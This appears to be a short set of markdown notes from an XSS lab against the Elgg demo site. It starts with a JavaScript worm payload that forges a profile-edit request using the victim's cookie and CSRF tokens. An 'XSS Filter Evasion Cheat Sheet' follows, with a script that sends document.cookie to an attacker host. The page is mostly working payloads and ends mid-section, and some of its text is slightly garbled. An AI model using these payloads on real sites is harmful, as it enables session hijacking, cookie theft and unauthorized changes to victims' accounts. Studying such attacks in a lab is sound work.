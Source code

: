 ```js
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));

params="__elgg_ts=".concat(ts).concat("&__elgg_token=").concat(token).concat("&description=User-11-is-great")
.concat(escape(sp)).concat("&name=").concat(elgg.session.user["username"]).concat("&accesslevel[description]=2&guid=")
.concat(elgg.session.user["guid"]);

ff.send(params);


```


---

# XSS Filter Evasion Cheat Sheet


## use `query`

```
http网址www.webpage.org/task/Rule1?query=try
http网址www.webpage.org/task/Rule1?query=<h3>Hello from XSS</h3>
```

## navigates the user's browser to a different URL
- This script navigates the user's browser to a different URL
- triggering an HTTP request to the attacker's server.
- The URL includes the victim's cookies as a query parameter
- the attacker can extract from the request when it arrives to his server.
- Once the attacker has acquired the cookies, he can impersonate the victim and launch further attacks.

```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
![persistent-xss](https://i.imgur.com/NznIJNi.png)


## find different tag to use
